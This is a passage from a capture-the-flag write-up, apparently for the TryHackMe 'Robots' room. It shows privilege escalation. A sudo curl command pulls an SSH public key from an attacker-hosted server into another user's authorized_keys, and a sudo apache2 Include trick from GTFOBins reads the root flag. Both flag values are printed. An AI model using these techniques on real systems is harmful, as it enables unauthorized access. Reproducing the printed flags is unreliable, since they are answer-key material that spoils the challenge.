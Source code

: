 If we check the file now:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317164513.png)

But, what we need to find is who this file belongs to, either `dolivaw` or our user:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317164614.png)

It belongs to the `dolivaw` user, we can use this to escalate our privileges by modifying the authorized keys in ssh:

```
ssh-keygen
```

```
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.6.34.159:8000/id_rsa.pub -o id_rsa -o /home/dolivaw/.ssh/authorized_keys -k
```

And now, we can login as `dolivaw` using this:

```
sudo ssh dolivaw@robots.thm -i id_rsa
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250317165458.png)

At this point we can read `user.txt` but let's continue onto root, let's check our privileges:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317165535.png)

Let's search this on GTFOBINS:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317165608.png)

We can read the root flag with this:

```
sudo /usr/sbin/apache2 -c "Include /root/root.txt" -k stop   

sudo -u root /usr/sbin/apache2 -C "DEFINE APACHE_RUN_DIR /tmp" -C "Include /root/root.txt" -k stop
```

And we get this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317170005.png)

We got our root flag, this is the short path, we can get a root shell exploiting this too, but for the simplicity of things, let's just read the root flag and end the CTF.

```
dolivaw@ubuntu-jammy:~$ cat user.txt
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```

```
root.txt: THM{2a279561f5eea907f7617df3982cee24}
```
